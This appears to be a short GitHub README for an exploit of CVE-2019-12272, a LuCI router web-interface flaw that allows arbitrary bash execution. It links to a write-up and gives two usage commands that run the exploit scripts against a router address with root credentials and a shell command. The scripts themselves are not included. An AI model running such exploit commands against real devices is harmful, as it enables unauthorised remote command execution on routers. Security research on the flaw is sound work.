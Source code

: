 # EXP of CVE-2019-12272

* CVE-2019-12272 is a vulnerablity of LuCI to execute arbitrary bash code.

## Details

https://hachp1.github.io/posts/Web%E5%AE%89%E5%85%A8/20190710-lucirce.html

## Usage

python  .\cve-2019-12272_bandwidth_status.py  -a 192.168.153.4 -u root -p root -c ls    
python  .\cve-2019-12272_wireless_status.py  -a 192.168.153.4 -u root -p root -c ls